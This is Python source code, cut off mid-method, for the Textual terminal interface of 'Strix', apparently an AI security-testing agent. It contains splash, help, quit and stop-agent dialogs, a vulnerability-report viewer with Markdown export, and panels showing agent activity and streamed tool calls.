class SplashScreen(Static):  # type: ignore[misc]
    ALLOW_SELECT = False
    PRIMARY_GREEN = "#22c55e"
    BANNER = (
        " ███████╗████████╗██████╗ ██╗██╗  ██╗\n"
        " ██╔════╝╚══██╔══╝██╔══██╗██║╚██╗██╔╝\n"
        " ███████╗   ██║   ██████╔╝██║ ╚███╔╝\n"
        " ╚════██║   ██║   ██╔══██╗██║ ██╔██╗\n"
        " ███████║   ██║   ██║  ██║██║██╔╝ ██╗\n"
        " ╚══════╝   ╚═╝   ╚═╝  ╚═╝╚═╝╚═╝  ╚═╝"
    )

    def __init__(self, *args: Any, **kwargs: Any) -> None:
        super().__init__(*args, **kwargs)
        self._animation_step = 0
        self._animation_timer: Timer | None = None
        self._panel_static: Static | None = None
        self._version = "dev"

    def compose(self) -> ComposeResult:
        self._version = get_package_version()
        self._animation_step = 0
        start_line = self._build_start_line_text(self._animation_step)
        panel = self._build_panel(start_line)

        panel_static = Static(panel, id="splash_content")
        self._panel_static = panel_static
        yield panel_static

    def on_mount(self) -> None:
        self._animation_timer = self.set_interval(0.05, self._animate_start_line)

    def on_unmount(self) -> None:
        if self._animation_timer is not None:
            self._animation_timer.stop()
            self._animation_timer = None

    def _animate_start_line(self) -> None:
        if not self._panel_static:
            return

        self._animation_step += 1
        start_line = self._build_start_line_text(self._animation_step)
        panel = self._build_panel(start_line)
        self._panel_static.update(panel)

    def _build_panel(self, start_line: Text) -> Panel:
        content = Group(
            Align.center(Text(self.BANNER.strip("\n"), style=self.PRIMARY_GREEN, justify="center")),
            Align.center(Text(" ")),
            Align.center(self._build_welcome_text()),
            Align.center(self._build_version_text()),
            Align.center(self._build_tagline_text()),
            Align.center(Text(" ")),
            Align.center(start_line.copy()),
            Align.center(Text(" ")),
            Align.center(self._build_url_text()),
        )

        return Panel.fit(content, border_style=self.PRIMARY_GREEN, padding=(1, 6))

    def _build_url_text(self) -> Text:
        return Text("strix.ai", style=Style(color=self.PRIMARY_GREEN, bold=True))

    def _build_welcome_text(self) -> Text:
        text = Text("Welcome to ", style=Style(color="white", bold=True))
        text.append("Strix", style=Style(color=self.PRIMARY_GREEN, bold=True))
        text.append("!", style=Style(color="white", bold=True))
        return text

    def _build_version_text(self) -> Text:
        return Text(f"v{self._version}", style=Style(color="white", dim=True))

    def _build_tagline_text(self) -> Text:
        return Text("Open-source AI hackers for your apps", style=Style(color="white", dim=True))

    def _build_start_line_text(self, phase: int) -> Text:
        full_text = "Starting Strix Agent"
        text_len = len(full_text)

        shine_pos = phase % (text_len + 8)

        text = Text()
        for i, char in enumerate(full_text):
            dist = abs(i - shine_pos)

            if dist <= 1:
                style = Style(color="bright_white", bold=True)
            elif dist <= 3:
                style = Style(color="white", bold=True)
            elif dist <= 5:
                style = Style(color="#a3a3a3")
            else:
                style = Style(color="#525252")

            text.append(char, style=style)

        return text


class HelpScreen(ModalScreen):  # type: ignore[misc]
    def compose(self) -> ComposeResult:
        yield Grid(
            Label("Strix Help", id="help_title"),
            Label(
                "F1        Help\nCtrl+Q/C  Quit\nESC       Stop Agent\n"
                "Enter     Send message to agent\nTab       Switch panels\n↑/↓       Navigate tree",
                id="help_content",
            ),
            id="dialog",
        )

    def on_key(self, _event: events.Key) -> None:
        self.app.pop_screen()


class StopAgentScreen(ModalScreen):  # type: ignore[misc]
    def __init__(self, agent_name: str, agent_id: str):
        super().__init__()
        self.agent_name = agent_name
        self.agent_id = agent_id

    def compose(self) -> ComposeResult:
        yield Grid(
            Label(f"🛑 Stop '{self.agent_name}'?", id="stop_agent_title"),
            Grid(
                Button("Yes", variant="error", id="stop_agent"),
                Button("No", variant="default", id="cancel_stop"),
                id="stop_agent_buttons",
            ),
            id="stop_agent_dialog",
        )

    def on_mount(self) -> None:
        cancel_button = self.query_one("#cancel_stop", Button)
        cancel_button.focus()

    def on_key(self, event: events.Key) -> None:
        if event.key in ("left", "right", "up", "down"):
            focused = self.focused

            if focused and focused.id == "stop_agent":
                cancel_button = self.query_one("#cancel_stop", Button)
                cancel_button.focus()
            else:
                stop_button = self.query_one("#stop_agent", Button)
                stop_button.focus()

            event.prevent_default()
        elif event.key == "enter":
            focused = self.focused
            if focused and isinstance(focused, Button):
                focused.press()
            event.prevent_default()
        elif event.key == "escape":
            self.app.pop_screen()
            event.prevent_default()

    def on_button_pressed(self, event: Button.Pressed) -> None:
        if event.button.id == "stop_agent":
            self.app.action_confirm_stop_agent(self.agent_id)
        else:
            self.app.pop_screen()


class VulnerabilityDetailScreen(ModalScreen):  # type: ignore[misc]
    """Modal screen to display vulnerability details."""

    SEVERITY_COLORS: ClassVar[dict[str, str]] = {
        "critical": "#dc2626",  # Red
        "high": "#ea580c",  # Orange
        "medium": "#d97706",  # Amber
        "low": "#22c55e",  # Green
        "info": "#3b82f6",  # Blue
    }

    FIELD_STYLE: ClassVar[str] = "bold #4ade80"

    def __init__(self, vulnerability: dict[str, Any]) -> None:
        super().__init__()
        self.vulnerability = vulnerability

    def compose(self) -> ComposeResult:
        content = self._render_vulnerability()
        yield Grid(
            VerticalScroll(Static(content, id="vuln_detail_content"), id="vuln_detail_scroll"),
            Horizontal(
                Button("Copy", variant="default", id="copy_vuln_detail"),
                Button("Done", variant="default", id="close_vuln_detail"),
                id="vuln_detail_buttons",
            ),
            id="vuln_detail_dialog",
        )

    def on_mount(self) -> None:
        close_button = self.query_one("#close_vuln_detail", Button)
        close_button.focus()

    def _get_cvss_color(self, cvss_score: float) -> str:
        if cvss_score >= 9.0:
            return "#dc2626"
        if cvss_score >= 7.0:
            return "#ea580c"
        if cvss_score >= 4.0:
            return "#d97706"
        if cvss_score >= 0.1:
            return "#65a30d"
        return "#6b7280"

    def _highlight_python(self, code: str) -> Text:
        try:
            from pygments.lexers import PythonLexer
            from pygments.styles import get_style_by_name

            lexer = PythonLexer()
            style = get_style_by_name("native")
            colors = {
                token: f"#{style_def['color']}" for token, style_def in style if style_def["color"]
            }

            text = Text()
            for token_type, token_value in lexer.get_tokens(code):
                if not token_value:
                    continue
                color = None
                tt = token_type
                while tt:
                    if tt in colors:
                        color = colors[tt]
                        break
                    tt = tt.parent
                text.append(token_value, style=color)
        except (ImportError, KeyError, AttributeError):
            return Text(code)
        else:
            return text

    def _render_vulnerability(self) -> Text:  # noqa: PLR0912, PLR0915
        vuln = self.vulnerability
        text = Text()

        text.append("🐞 ")
        text.append("Vulnerability Report", style="bold #ea580c")

        agent_name = vuln.get("agent_name", "")
        if agent_name:
            text.append("\n\n")
            text.append("Agent: ", style=self.FIELD_STYLE)
            text.append(agent_name)

        title = vuln.get("title", "")
        if title:
            text.append("\n\n")
            text.append("Title: ", style=self.FIELD_STYLE)
            text.append(title)

        severity = vuln.get("severity", "")
        if severity:
            text.append("\n\n")
            text.append("Severity: ", style=self.FIELD_STYLE)
            severity_color = self.SEVERITY_COLORS.get(severity.lower(), "#6b7280")
            text.append(severity.upper(), style=f"bold {severity_color}")

        cvss_score = vuln.get("cvss")
        if cvss_score is not None:
            text.append("\n\n")
            text.append("CVSS Score: ", style=self.FIELD_STYLE)
            cvss_color = self._get_cvss_color(float(cvss_score))
            text.append(str(cvss_score), style=f"bold {cvss_color}")

        target = vuln.get("target", "")
        if target:
            text.append("\n\n")
            text.append("Target: ", style=self.FIELD_STYLE)
            text.append(target)

        endpoint = vuln.get("endpoint", "")
        if endpoint:
            text.append("\n\n")
            text.append("Endpoint: ", style=self.FIELD_STYLE)
            text.append(endpoint)

        method = vuln.get("method", "")
        if method:
            text.append("\n\n")
            text.append("Method: ", style=self.FIELD_STYLE)
            text.append(method)

        cve = vuln.get("cve", "")
        if cve:
            text.append("\n\n")
            text.append("CVE: ", style=self.FIELD_STYLE)
            text.append(cve)

        # CVSS breakdown
        cvss_breakdown = vuln.get("cvss_breakdown", {})
        if cvss_breakdown:
            cvss_parts = []
            if cvss_breakdown.get("attack_vector"):
                cvss_parts.append(f"AV:{cvss_breakdown['attack_vector']}")
            if cvss_breakdown.get("attack_complexity"):
                cvss_parts.append(f"AC:{cvss_breakdown['attack_complexity']}")
            if cvss_breakdown.get("privileges_required"):
                cvss_parts.append(f"PR:{cvss_breakdown['privileges_required']}")
            if cvss_breakdown.get("user_interaction"):
                cvss_parts.append(f"UI:{cvss_breakdown['user_interaction']}")
            if cvss_breakdown.get("scope"):
                cvss_parts.append(f"S:{cvss_breakdown['scope']}")
            if cvss_breakdown.get("confidentiality"):
                cvss_parts.append(f"C:{cvss_breakdown['confidentiality']}")
            if cvss_breakdown.get("integrity"):
                cvss_parts.append(f"I:{cvss_breakdown['integrity']}")
            if cvss_breakdown.get("availability"):
                cvss_parts.append(f"A:{cvss_breakdown['availability']}")
            if cvss_parts:
                text.append("\n\n")
                text.append("CVSS Vector: ", style=self.FIELD_STYLE)
                text.append("/".join(cvss_parts), style="dim")

        description = vuln.get("description", "")
        if description:
            text.append("\n\n")
            text.append("Description", style=self.FIELD_STYLE)
            text.append("\n")
            text.append(description)

        impact = vuln.get("impact", "")
        if impact:
            text.append("\n\n")
            text.append("Impact", style=self.FIELD_STYLE)
            text.append("\n")
            text.append(impact)

        technical_analysis = vuln.get("technical_analysis", "")
        if technical_analysis:
            text.append("\n\n")
            text.append("Technical Analysis", style=self.FIELD_STYLE)
            text.append("\n")
            text.append(technical_analysis)

        poc_description = vuln.get("poc_description", "")
        if poc_description:
            text.append("\n\n")
            text.append("PoC Description", style=self.FIELD_STYLE)
            text.append("\n")
            text.append(poc_description)

        poc_script_code = vuln.get("poc_script_code", "")
        if poc_script_code:
            text.append("\n\n")
            text.append("PoC Code", style=self.FIELD_STYLE)
            text.append("\n")
            text.append_text(self._highlight_python(poc_script_code))

        remediation_steps = vuln.get("remediation_steps", "")
        if remediation_steps:
            text.append("\n\n")
            text.append("Remediation", style=self.FIELD_STYLE)
            text.append("\n")
            text.append(remediation_steps)

        return text

    def _get_markdown_report(self) -> str:  # noqa: PLR0912, PLR0915
        """Get Markdown version of vulnerability report for clipboard."""
        vuln = self.vulnerability
        lines: list[str] = []

        # Title
        title = vuln.get("title", "Untitled Vulnerability")
        lines.append(f"# {title}")
        lines.append("")

        # Metadata
        if vuln.get("id"):
            lines.append(f"**ID:** {vuln['id']}")
        if vuln.get("severity"):
            lines.append(f"**Severity:** {vuln['severity'].upper()}")
        if vuln.get("timestamp"):
            lines.append(f"**Found:** {vuln['timestamp']}")
        if vuln.get("agent_name"):
            lines.append(f"**Agent:** {vuln['agent_name']}")
        if vuln.get("target"):
            lines.append(f"**Target:** {vuln['target']}")
        if vuln.get("endpoint"):
            lines.append(f"**Endpoint:** {vuln['endpoint']}")
        if vuln.get("method"):
            lines.append(f"**Method:** {vuln['method']}")
        if vuln.get("cve"):
            lines.append(f"**CVE:** {vuln['cve']}")
        if vuln.get("cvss") is not None:
            lines.append(f"**CVSS:** {vuln['cvss']}")

        # CVSS Vector
        cvss_breakdown = vuln.get("cvss_breakdown", {})
        if cvss_breakdown:
            abbrevs = {
                "attack_vector": "AV",
                "attack_complexity": "AC",
                "privileges_required": "PR",
                "user_interaction": "UI",
                "scope": "S",
                "confidentiality": "C",
                "integrity": "I",
                "availability": "A",
            }
            parts = [
                f"{abbrevs.get(k, k)}:{v}" for k, v in cvss_breakdown.items() if v and k in abbrevs
            ]
            if parts:
                lines.append(f"**CVSS Vector:** {'/'.join(parts)}")

        # Description
        lines.append("")
        lines.append("## Description")
        lines.append("")
        lines.append(vuln.get("description") or "No description provided.")

        # Impact
        if vuln.get("impact"):
            lines.extend(["", "## Impact", "", vuln["impact"]])

        # Technical Analysis
        if vuln.get("technical_analysis"):
            lines.extend(["", "## Technical Analysis", "", vuln["technical_analysis"]])

        # Proof of Concept
        if vuln.get("poc_description") or vuln.get("poc_script_code"):
            lines.extend(["", "## Proof of Concept", ""])
            if vuln.get("poc_description"):
                lines.append(vuln["poc_description"])
                lines.append("")
            if vuln.get("poc_script_code"):
                lines.append("```python")
                lines.append(vuln["poc_script_code"])
                lines.append("```")

        # Code Analysis
        if vuln.get("code_locations"):
            lines.extend(["", "## Code Analysis", ""])
            for i, loc in enumerate(vuln["code_locations"]):
                file_ref = loc.get("file", "unknown")
                line_ref = ""
                if loc.get("start_line") is not None:
                    if loc.get("end_line") and loc["end_line"] != loc["start_line"]:
                        line_ref = f" (lines {loc['start_line']}-{loc['end_line']})"
                    else:
                        line_ref = f" (line {loc['start_line']})"
                lines.append(f"**Location {i + 1}:** `{file_ref}`{line_ref}")
                if loc.get("label"):
                    lines.append(f"  {loc['label']}")
                if loc.get("snippet"):
                    lines.append(f"```\n{loc['snippet']}\n```")
                if loc.get("fix_before") or loc.get("fix_after"):
                    lines.append("**Suggested Fix:**")
                    lines.append("```diff")
                    if loc.get("fix_before"):
                        lines.extend(f"- {line}" for line in loc["fix_before"].splitlines())
                    if loc.get("fix_after"):
                        lines.extend(f"+ {line}" for line in loc["fix_after"].splitlines())
                    lines.append("```")
                lines.append("")

        # Remediation
        if vuln.get("remediation_steps"):
            lines.extend(["", "## Remediation", "", vuln["remediation_steps"]])

        lines.append("")
        return "\n".join(lines)

    def on_key(self, event: events.Key) -> None:
        if event.key == "escape":
            self.app.pop_screen()
            event.prevent_default()

    def on_button_pressed(self, event: Button.Pressed) -> None:
        if event.button.id == "copy_vuln_detail":
            markdown_text = self._get_markdown_report()
            self.app.copy_to_clipboard(markdown_text)

            copy_button = self.query_one("#copy_vuln_detail", Button)
            copy_button.label = "Copied!"
            self.set_timer(1.5, lambda: setattr(copy_button, "label", "Copy"))
        elif event.button.id == "close_vuln_detail":
            self.app.pop_screen()


class VulnerabilityItem(Static):  # type: ignore[misc]
    """A clickable vulnerability item."""

    def __init__(self, label: Text, vuln_data: dict[str, Any], **kwargs: Any) -> None:
        super().__init__(label, **kwargs)
        self.vuln_data = vuln_data

    def on_click(self, _event: events.Click) -> None:
        """Handle click to open vulnerability detail."""
        self.app.push_screen(VulnerabilityDetailScreen(self.vuln_data))


class VulnerabilitiesPanel(VerticalScroll):  # type: ignore[misc]
    """A scrollable panel showing found vulnerabilities with severity-colored dots."""

    SEVERITY_COLORS: ClassVar[dict[str, str]] = {
        "critical": "#dc2626",  # Red
        "high": "#ea580c",  # Orange
        "medium": "#d97706",  # Amber
        "low": "#22c55e",  # Green
        "info": "#3b82f6",  # Blue
    }

    def __init__(self, *args: Any, **kwargs: Any) -> None:
        super().__init__(*args, **kwargs)
        self._vulnerabilities: list[dict[str, Any]] = []

    def compose(self) -> ComposeResult:
        return []

    def update_vulnerabilities(self, vulnerabilities: list[dict[str, Any]]) -> None:
        """Update the list of vulnerabilities and re-render."""
        if self._vulnerabilities == vulnerabilities:
            return
        self._vulnerabilities = list(vulnerabilities)
        self._render_panel()

    def _render_panel(self) -> None:
        """Render the vulnerabilities panel content."""
        for child in list(self.children):
            if isinstance(child, VulnerabilityItem):
                child.remove()

        if not self._vulnerabilities:
            return

        for vuln in self._vulnerabilities:
            severity = vuln.get("severity", "info").lower()
            title = vuln.get("title", "Unknown Vulnerability")
            color = self.SEVERITY_COLORS.get(severity, "#3b82f6")

            label = Text()
            label.append("● ", style=Style(color=color))
            label.append(title, style=Style(color="#d4d4d4"))

            item = VulnerabilityItem(label, vuln, classes="vuln-item")
            self.mount(item)


class QuitScreen(ModalScreen):  # type: ignore[misc]
    def compose(self) -> ComposeResult:
        yield Grid(
            Label("Quit Strix?", id="quit_title"),
            Grid(
                Button("Yes", variant="error", id="quit"),
                Button("No", variant="default", id="cancel"),
                id="quit_buttons",
            ),
            id="quit_dialog",
        )

    def on_mount(self) -> None:
        cancel_button = self.query_one("#cancel", Button)
        cancel_button.focus()

    def on_key(self, event: events.Key) -> None:
        if event.key in ("left", "right", "up", "down"):
            focused = self.focused

            if focused and focused.id == "quit":
                cancel_button = self.query_one("#cancel", Button)
                cancel_button.focus()
            else:
                quit_button = self.query_one("#quit", Button)
                quit_button.focus()

            event.prevent_default()
        elif event.key == "enter":
            focused = self.focused
            if focused and isinstance(focused, Button):
                focused.press()
            event.prevent_default()
        elif event.key == "escape":
            self.app.pop_screen()
            event.prevent_default()

    def on_button_pressed(self, event: Button.Pressed) -> None:
        if event.button.id == "quit":
            self.app.action_custom_quit()
        else:
            self.app.pop_screen()


class StrixTUIApp(App):  # type: ignore[misc]
    CSS_PATH = "assets/tui_styles.tcss"
    ALLOW_SELECT = True

    SIDEBAR_MIN_WIDTH = 120

    selected_agent_id: reactive[str | None] = reactive(default=None)
    show_splash: reactive[bool] = reactive(default=True)

    BINDINGS: ClassVar[list[Binding]] = [
        Binding("f1", "toggle_help", "Help", priority=True),
        Binding("ctrl+q", "request_quit", "Quit", priority=True),
        Binding("ctrl+c", "request_quit", "Quit", priority=True),
        Binding("escape", "stop_selected_agent", "Stop Agent", priority=True),
    ]

    def __init__(self, args: argparse.Namespace):
        super().__init__()
        self.args = args
        self.scan_config = self._build_scan_config(args)
        self.agent_config = self._build_agent_config(args)

        self.tracer = Tracer(self.scan_config["run_name"])
        self.tracer.set_scan_config(self.scan_config)
        set_global_tracer(self.tracer)

        self.agent_nodes: dict[str, TreeNode] = {}

        self._displayed_agents: set[str] = set()
        self._displayed_events: list[str] = []

        self._streaming_render_cache: dict[str, tuple[int, Any]] = {}
        self._last_streaming_len: dict[str, int] = {}

        self._scan_thread: threading.Thread | None = None
        self._scan_stop_event = threading.Event()
        self._scan_completed = threading.Event()

        self._spinner_frame_index: int = 0  # Current animation frame index
        self._sweep_num_squares: int = 6  # Number of squares in sweep animation
        self._sweep_colors: list[str] = [
            "#000000",  # Dimmest (shows dot)
            "#031a09",
            "#052e16",
            "#0d4a2a",
            "#15803d",
            "#22c55e",
            "#4ade80",
            "#86efac",  # Brightest
        ]
        self._dot_animation_timer: Any | None = None

        self._setup_cleanup_handlers()

    def _build_scan_config(self, args: argparse.Namespace) -> dict[str, Any]:
        return {
            "scan_id": args.run_name,
            "targets": args.targets_info,
            "user_instructions": args.instruction or "",
            "run_name": args.run_name,
        }

    def _build_agent_config(self, args: argparse.Namespace) -> dict[str, Any]:
        scan_mode = getattr(args, "scan_mode", "deep")
        llm_config = LLMConfig(scan_mode=scan_mode, interactive=True)

        config = {
            "llm_config": llm_config,
            "max_iterations": 300,
        }

        if getattr(args, "local_sources", None):
            config["local_sources"] = args.local_sources

        return config

    def _setup_cleanup_handlers(self) -> None:
        def cleanup_on_exit() -> None:
            from strix.runtime import cleanup_runtime

            self.tracer.cleanup()
            cleanup_runtime()

        def signal_handler(_signum: int, _frame: Any) -> None:
            self.tracer.cleanup()
            sys.exit(0)

        atexit.register(cleanup_on_exit)
        signal.signal(signal.SIGINT, signal_handler)
        signal.signal(signal.SIGTERM, signal_handler)
        if hasattr(signal, "SIGHUP"):
            signal.signal(signal.SIGHUP, signal_handler)

    def compose(self) -> ComposeResult:
        if self.show_splash:
            yield SplashScreen(id="splash_screen")

    def watch_show_splash(self, show_splash: bool) -> None:
        if not show_splash and self.is_mounted:
            try:
                splash = self.query_one("#splash_screen")
                splash.remove()
            except ValueError:
                pass

            main_container = Vertical(id="main_container")

            self.mount(main_container)

            content_container = Horizontal(id="content_container")
            main_container.mount(content_container)

            chat_area_container = Vertical(id="chat_area_container")

            chat_display = Static("", id="chat_display")
            chat_history = VerticalScroll(chat_display, id="chat_history")
            chat_history.can_focus = True

            status_text = Static("", id="status_text")
            status_text.ALLOW_SELECT = False
            keymap_indicator = Static("", id="keymap_indicator")
            keymap_indicator.ALLOW_SELECT = False

            agent_status_display = Horizontal(
                status_text, keymap_indicator, id="agent_status_display", classes="hidden"
            )

            chat_prompt = Static("> ", id="chat_prompt")
            chat_prompt.ALLOW_SELECT = False
            chat_input = ChatTextArea(
                "",
                id="chat_input",
                show_line_numbers=False,
            )
            chat_input.set_app_reference(self)
            chat_input_container = Horizontal(chat_prompt, chat_input, id="chat_input_container")

            agents_tree = Tree("Agents", id="agents_tree")
            agents_tree.root.expand()
            agents_tree.show_root = False

            agents_tree.show_guide = True
            agents_tree.guide_depth = 3
            agents_tree.guide_style = "dashed"

            stats_display = Static("", id="stats_display")
            stats_scroll = VerticalScroll(stats_display, id="stats_scroll")

            vulnerabilities_panel = VulnerabilitiesPanel(id="vulnerabilities_panel")

            sidebar = Vertical(agents_tree, vulnerabilities_panel, stats_scroll, id="sidebar")

            content_container.mount(chat_area_container)
            content_container.mount(sidebar)

            chat_area_container.mount(chat_history)
            chat_area_container.mount(agent_status_display)
            chat_area_container.mount(chat_input_container)

            self.call_after_refresh(self._focus_chat_input)

    def _focus_chat_input(self) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        try:
            chat_input = self.query_one("#chat_input", ChatTextArea)
            chat_input.show_vertical_scrollbar = False
            chat_input.show_horizontal_scrollbar = False
            chat_input.focus()
        except (ValueError, Exception):
            self.call_after_refresh(self._focus_chat_input)

    def _focus_agents_tree(self) -> None:
        if len(self.screen_stack) > 1 or self.show_splash:
            return

        if not self.is_mounted:
            return

        try:
            agents_tree = self.query_one("#agents_tree", Tree)
            agents_tree.focus()

            if agents_tree.root.children:
                first_node = agents_tree.root.children[0]
                agents_tree.select_node(first_node)
        except (ValueError, Exception):
            self.call_after_refresh(self._focus_agents_tree)

    def on_mount(self) -> None:
        self.title = "strix"

        self.set_timer(4.5, self._hide_splash_screen)

    def _hide_splash_screen(self) -> None:
        self.show_splash = False

        self._start_scan_thread()

        self.set_interval(0.35, self._update_ui_from_tracer)

    def _update_ui_from_tracer(self) -> None:
        if self.show_splash:
            return

        if len(self.screen_stack) > 1:
            return

        if not self.is_mounted:
            return

        try:
            chat_history = self.query_one("#chat_history", VerticalScroll)
            agents_tree = self.query_one("#agents_tree", Tree)

            if not self._is_widget_safe(chat_history) or not self._is_widget_safe(agents_tree):
                return
        except (ValueError, Exception):
            return

        agent_updates = False
        for agent_id, agent_data in list(self.tracer.agents.items()):
            if agent_id not in self._displayed_agents:
                self._add_agent_node(agent_data)
                self._displayed_agents.add(agent_id)
                agent_updates = True
            elif self._update_agent_node(agent_id, agent_data):
                agent_updates = True

        if agent_updates:
            self._expand_new_agent_nodes()

        self._update_chat_view()

        self._update_agent_status_display()

        self._update_stats_display()

        self._update_vulnerabilities_panel()

    def _update_agent_node(self, agent_id: str, agent_data: dict[str, Any]) -> bool:
        if agent_id not in self.agent_nodes:
            return False

        try:
            agent_node = self.agent_nodes[agent_id]
            agent_name_raw = agent_data.get("name", "Agent")
            status = agent_data.get("status", "running")

            status_indicators = {
                "running": "⚪",
                "waiting": "⏸",
                "completed": "🟢",
                "failed": "🔴",
                "stopped": "■",
                "stopping": "○",
                "llm_failed": "🔴",
            }

            status_icon = status_indicators.get(status, "○")
            vuln_count = self._agent_vulnerability_count(agent_id)
            vuln_indicator = f" ({vuln_count})" if vuln_count > 0 else ""
            agent_name = f"{status_icon} {agent_name_raw}{vuln_indicator}"

            if agent_node.label != agent_name:
                agent_node.set_label(agent_name)
                return True

        except (KeyError, AttributeError, ValueError) as e:
            import logging

            logging.warning(f"Failed to update agent node label: {e}")

        return False

    def _get_chat_content(
        self,
    ) -> tuple[Any, str | None]:
        if not self.selected_agent_id:
            return self._get_chat_placeholder_content(
                "Select an agent from the tree to see its activity.", "placeholder-no-agent"
            )

        events = self._gather_agent_events(self.selected_agent_id)
        streaming = self.tracer.get_streaming_content(self.selected_agent_id)

        if not events and not streaming:
            return self._get_chat_placeholder_content(
                "Starting agent...", "placeholder-no-activity"
            )

        current_event_ids = [e["id"] for e in events]
        current_streaming_len = len(streaming) if streaming else 0
        last_streaming_len = self._last_streaming_len.get(self.selected_agent_id, 0)

        if (
            current_event_ids == self._displayed_events
            and current_streaming_len == last_streaming_len
        ):
            return None, None

        self._displayed_events = current_event_ids
        self._last_streaming_len[self.selected_agent_id] = current_streaming_len
        return self._get_rendered_events_content(events), "chat-content"

    def _update_chat_view(self) -> None:
        if len(self.screen_stack) > 1 or self.show_splash or not self.is_mounted:
            return

        try:
            chat_history = self.query_one("#chat_history", VerticalScroll)
        except (ValueError, Exception):
            return

        if not self._is_widget_safe(chat_history):
            return

        try:
            is_at_bottom = chat_history.scroll_y >= chat_history.max_scroll_y
        except (AttributeError, ValueError):
            is_at_bottom = True

        content, css_class = self._get_chat_content()
        if content is None:
            return

        chat_display = self.query_one("#chat_display", Static)
        self._safe_widget_operation(chat_display.update, content)
        chat_display.set_classes(css_class)

        if is_at_bottom:
            self.call_later(chat_history.scroll_end, animate=False)

    def _get_chat_placeholder_content(
        self, message: str, placeholder_class: str
    ) -> tuple[Text, str]:
        self._displayed_events = [placeholder_class]
        text = Text()
        text.append(message)
        return text, f"chat-placeholder {placeholder_class}"

    @staticmethod
    def _merge_renderables(renderables: list[Any]) -> Text:
        """Merge renderables into a single Text for mouse text selection support."""
        combined = Text()
        for i, item in enumerate(renderables):
            if i > 0:
                combined.append("\n")
            StrixTUIApp._append_renderable(combined, item)
        return combined

    @staticmethod
    def _append_renderable(combined: Text, item: Any) -> None:
        """Recursively append a renderable's text content to a combined Text."""
        if isinstance(item, Text):
            combined.append_text(item)
        elif isinstance(item, Group):
            for j, sub in enumerate(item.renderables):
                if j > 0:
                    combined.append("\n")
                StrixTUIApp._append_renderable(combined, sub)
        else:
            inner = getattr(item, "renderable", None)
            if inner is not None:
                StrixTUIApp._append_renderable(combined, inner)
            else:
                combined.append(str(item))

    def _get_rendered_events_content(self, events: list[dict[str, Any]]) -> Any:
        renderables: list[Any] = []

        if not events:
            return Text()

        for event in events:
            content: Any = None

            if event["type"] == "chat":
                content = self._render_chat_content(event["data"])
            elif event["type"] == "tool":
                content = self._render_tool_content_simple(event["data"])

            if content:
                if renderables:
                    renderables.append(Text(""))
                renderables.append(content)

        if self.selected_agent_id:
            streaming = self.tracer.get_streaming_content(self.selected_agent_id)
            if streaming:
                streaming_text = self._render_streaming_content(streaming)
                if streaming_text:
                    if renderables:
                        renderables.append(Text(""))
                    renderables.append(streaming_text)

        if not renderables:
            return Text()

        if len(renderables) == 1 and isinstance(renderables[0], Text):
            return renderables[0]

        return self._merge_renderables(renderables)

    def _render_streaming_content(self, content: str, agent_id: str | None = None) -> Any:
        cache_key = agent_id or self.selected_agent_id or ""
        content_len = len(content)

        if cache_key in self._streaming_render_cache:
            cached_len, cached_output = self._streaming_render_cache[cache_key]
            if cached_len == content_len:
                return cached_output

        renderables: list[Any] = []
        segments = parse_streaming_content(content)

        for segment in segments:
            if segment.type == "text":
                text_content = AgentMessageRenderer.render_simple(segment.content)
                if renderables:
                    renderables.append(Text(""))
                renderables.append(text_content)

            elif segment.type == "tool":
                tool_renderable = self._render_streaming_tool(
                    segment.tool_name or "unknown",
                    segment.args or {},
                    segment.is_complete,
                )
                if renderables:
                    renderables.append(Text(""))
                renderables.append(tool_renderable)

        if not renderables:
            result = Text()
        elif len(renderables) == 1 and isinstance(renderables[0], Text):
            result = renderables[0]
        else:
            result = self._merge_renderables(renderables)

        self._streaming_render_cache[cache_key] = (content_len, result)
        return result

    def _render_streaming_tool(
        self, tool_name: str, args: dict[str, str], is_complete: bool
    ) -> Any:
        tool_data = {
            "tool_name": tool_name,
            "args": args,
            "status": "completed" if is_complete else "running",
            "result": None,
        }

        renderer = get_tool_renderer(tool_name)
        if renderer:
            widget = renderer.render(tool_data)
            return widget.renderable

        return self._render_default_streaming_tool(tool_name, args, is_complete)

    def _render_default_streaming_tool(
        self, tool_name: str, args: dict[str, str], is_complete: bool
    ) -> Text:
        text = Text()

        if is_complete:
            text.append("✓ ", style="green")
        else:
            text.append("● ", style="yellow")

        text.append("Using tool ", style="dim")
        text.append(tool_name, style="bold blue")

        if args:
            for key, value in list(args.items())[:3]:
                text.append("\n  ")
                text.append(key, style="dim")
                text.append(": ")
                display_value = value if len(value) <= 100 else value[:97] + "..."
                text.append(display_value, style="italic" if not is_complete else None)

        return text

    def _get_status_display_content(
        self, agent_id: str, agent_data: dict[str, Any]
    ) -> tuple[Text | None, Text, bool]:
        status = agent_data.get("status", "running")

        def keymap_styled(keys: list[tuple[str, str]]) -> Text:
            t = Text()
            for i, (key, action) in enumerate(keys):
                if i > 0:
                    t.append(" · ", style="dim")
                t.append(key, style="white")
                t.append(" ", style="dim")
                t.append(action, style="dim")
            return t

        simple_statuses: dict[str, tuple[str, str]] = {
            "stopping": ("Agent stopping...", ""),
            "stopped": ("Agent stopped", ""),
            "completed": ("Agent completed", ""),
        }

        if status in simple_statuses:
            msg, _ = simple_statuses[status]
            text = Text()
            text.append(msg)
            return (text, Text(), False)

        if status == "llm_failed":
            error_msg = agent_data.get("error_message", "")
            text = Text()
            if error_msg:
                text.append(error_msg, style="red")
            else:
                text.append("LLM request failed", style="red")
            self._stop_dot_animation()
            keymap = Text()
            keymap.append("Send message to retry", style="dim")
            return (text, keymap, False)

        if status == "waiting":
            keymap = Text()
            keymap.append("Send message to resume", style="dim")
            return (Text(" "), keymap, False)

        if status == "running":
            if self._agent_has_real_activity(agent_id):
                animated_text = Text()
                animated_text.append_text(self._get_sweep_animation(self._sweep_colors))
                animated_text.append("esc", style="white")
                animated_text.append(" ", style="dim")
                animated_text.append("stop", style="dim")
                return (animated_text, keymap_styled([("ctrl-q", "quit")]), True)
            animated_text = self._get_animated_verb_text(agent_id, "Initializing")
            return (animated_text, keymap_styled([("ctrl-q", "quit")]), True)

        return (None, Text(), False)

    def _update_agent_status_display(self) -> None:
        try:
            status_display = self.query_one("#agent_status_display", Horizontal)
            status_text = self.query_one("#status_text", Static)
            keymap_indicator = self.query_one("#keymap_indicator", Static)
        except (ValueError, Exception):
            return

        widgets = [status_display, status_text, keymap_indicator]
        if not all(self._is_widget_safe(w) for w in widgets):
            return

        if not self.selected_agent_id:
            self._safe_widget_operation(status_display.add_class, "hidden")
            return

        try:
